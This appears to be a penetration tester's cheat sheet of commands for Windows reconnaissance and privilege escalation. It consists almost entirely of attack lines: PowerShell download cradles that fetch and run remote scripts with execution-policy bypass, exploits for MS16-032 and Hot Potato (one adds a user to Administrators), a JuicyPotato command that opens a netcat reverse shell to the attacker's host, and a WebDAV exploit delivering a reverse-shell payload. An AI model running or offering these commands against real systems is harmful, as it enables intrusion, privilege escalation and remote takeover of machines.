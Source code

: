 ### ADRecon script to generate XLSX file of domain properties
```bash
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/sense-of-security/ADRecon/master/ADRecon.ps1')"
```

## Exploit Suggesters
```bash
python.exe //$source_ip/$smb_share/tools_windows/windows-exploit-suggester.py
```
```bash
//$source_ip/$smb_share/tools_windows/Watson_Net35.exe
```
```bash
//$source_ip/$smb_share/tools_windows/Watson_Net45.exe
```
```bash
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -exec Bypass -C "iex ((New-Object System.Net.WebClient).DownloadString('http://$source_ip/tools_windows/Sherlock.ps1'))"
```
```bash
cd tools_windows/Windows-Exploit-Suggester; python windows-exploit-suggester.py --database `ls -la 20* | cut -d' ' -f9 | sort -nr | head -n 1` --systeminfo systeminfo.txt
```
```bash
//$source_ip/$smb_share/tools_windows/Privesc/privesc.bat
```

## Exploit

MS16-032
```bash
powershell.exe -noprofile -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://$source_ip/exploits_windows_collections/windows-kernel-exploits/MS16-032/MS16-032.ps1'); Invoke-MS16-032"
```

Invoke-HotPotato Exploit
```bash
powershell.exe -nop -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Tater/master/Tater.ps1');invoke-Tater -Command 'net localgroup Administrators user /add'"
```
```
//$source_ip/$smb_share/exploits_windows_prevesc/juicypotato.exe -p c:\windows\system32\cmd.exe -l 1340 -t * -a "/c //$source_ip/$smb_share/tools_windows/bin/nc.exe -nc $source_ip $source_port -e cmd.exe"
```

ScStoragePathFromUrl
```bash
python exploits_windows/webdav/ScStoragePathFromUrl-explodingcan.py http://$target_ip $pwd/public/payloads_windows/shell_reverse_tcp_x86_shikata_ga_nai.bin
```
